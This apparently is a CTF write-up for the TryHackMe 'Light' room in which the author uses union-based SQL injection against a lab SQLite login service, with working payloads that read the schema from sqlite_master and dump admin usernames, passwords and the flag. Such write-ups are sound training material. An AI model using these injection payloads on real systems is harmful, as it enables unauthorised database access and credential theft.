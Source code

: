 ```yaml
---
title: "TryHackMe - Light"
date: 2025-02-04 22:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [sql injection, sqlite, payloads, union-based injection]

---
```


# Introduction

In [this CTF](https://tryhackme.com/room/lightroom), I do not need to use Nmap scanning because the creator clearly states that I can connect to the database via netcat on port 1337.


```console
$ nc 10.10.10.30 1337     
Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: 
```

I notice that the login is getting stuck in a loop. Knowing the CTF description, I understand that this challenge is related to databases. I decide to attempt an SQL injection using [known payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md). I'll start with the simplest payload:  ' .

```console
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
Please enter your username: 
```

I encountered an error about an unrecognized token. I try using additional methods from the list to extract anything from the database. I decide to use various UNION SELECT techniques, encountering various errors thrown by the database, such as:
```console
Ahh there is a word in there I don't like :(
```
or
```console
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```

The first significant change I encountered was during the following variation of the UNION SELECT query:

```console
Please enter your username: ' Union Select 1 '
Password: 1
Please enter your username: 
``` 

Knowing the working union-based payload, I can proceed with further exploration of the database. After countless attempts, I finally manage to determine the version of the database using the command:

```console
Please enter your username: ' Union Select sqlite_version() '
Password: 3.31.1
Please enter your username: 
```
Knowing the database version, I can focus on existing payloads for SQLite 3.31.1. I search the web for this purpose and come across this list: [SQLite Injection Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md).

I use the following query to determine the structure of the database:

```console
Please enter your username: ' Union Select group_concat(sql) FROM sqlite_master '
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
Please enter your username: 
```

With this information, I can proceed to create a query that will allow me to extract the **username** and **password** from the database. I do this using the following queries:


```console
lease enter your username: ' Union Select group_concat(username) FROM admintable '
Password: TryHackMeAdmin,flag
Please enter your username: ' Union Select group_concat(password) FROM admintable '
Password: mamZtAuMlrsEy5bp6q17,THM{SQLit3_InJ3cTion_is_SimplE_nO?}
```

This way, I obtained the username, password, and the flag needed to complete the CTF.